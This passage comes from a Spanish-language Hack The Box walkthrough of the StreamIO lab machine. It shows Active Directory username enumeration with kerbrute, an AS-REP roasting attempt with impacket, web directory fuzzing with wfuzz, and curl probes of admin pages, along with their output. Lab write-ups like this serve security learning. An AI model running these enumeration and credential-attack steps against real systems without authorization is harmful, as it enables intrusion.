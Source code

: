 ```bash
└─$ kerbrute userenum --dc 10.10.11.158 -d streamio.htb /usr/share/seclists/Usernames/Names/names.txt | grep "[+]"
2024/02/21 11:39:15 >  [+] VALID USERNAME:	martin@streamio.htb

└─$ impacket-GetNPUsers streamio.htb/martin -dc-ip 10.10.11.158 -no-pass
[*] Getting TGT for martin
[-] User martin doesnt have UF_DONT_REQUIRE_PREAUTH set
```
Realizamos fuzzing sobre la web principal
```bash
└─$ wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://streamio.htb/FUZZ.php | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000012:   200        205 L    430 W      6434 Ch     "contact"                                             
000000013:   200        230 L    571 W      7825 Ch     "about"                                               
000000002:   200        394 L    915 W      13497 Ch    "index"                                               
000000040:   200        110 L    269 W      4145 Ch     "login"                                               
000000052:   200        120 L    291 W      4500 Ch     "register"                                            
000001134:   302        0 L      0 W        0 Ch        "logout"   

└─$ wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://streamio.htb/FUZZ/ | grep -E "W|L"   
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000003:   403        29 L     92 W       1233 Ch     "images"                                              
000000243:   403        0 L      1 W        18 Ch       "admin"                                               
000000526:   403        29 L     92 W       1233 Ch     "css"                                                 
000000900:   403        29 L     92 W       1233 Ch     "js" 
000002541:   403        29 L     92 W       1233 Ch     "fonts"

└─$ wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://streamio.htb/admin/FUZZ.php | grep -E "W|L" 
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000002:   403        0 L      1 W        18 Ch       "index"                                               
000002364:   200        1 L      6 W        58 Ch       "master" 
```
Las paginas de /admin/ devuelven un 403 y un 200 respectivamente
```bash
└─$ curl -sk https://streamio.htb/admin/index.php
<h1>FORBIDDEN</h1>                                                                                                                       
└─$ curl -sk https://streamio.htb/admin/master.php
<h1>Movie managment</h1>
Only accessable through includes    
```
